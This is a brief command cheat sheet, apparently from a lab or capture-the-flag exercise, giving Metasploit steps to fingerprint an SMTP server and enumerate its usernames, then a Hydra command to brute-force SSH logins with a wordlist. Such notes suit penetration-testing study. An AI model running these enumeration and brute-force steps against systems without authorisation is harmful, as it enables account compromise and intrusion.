 ```
sudo msfconsole
```
run metasploit.
```
use auxiliary/scanner/smtp/smtp_version
set RHOSTS <ip>
run
```
find smtp version.
```
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS <ip>
set RPORT <port>
set USER_FILE <wordlist>
run
```
find existing usernames.
```
hydra -l <username> -P <wordlist> -vV <ip> ssh
```
brute force ssh access.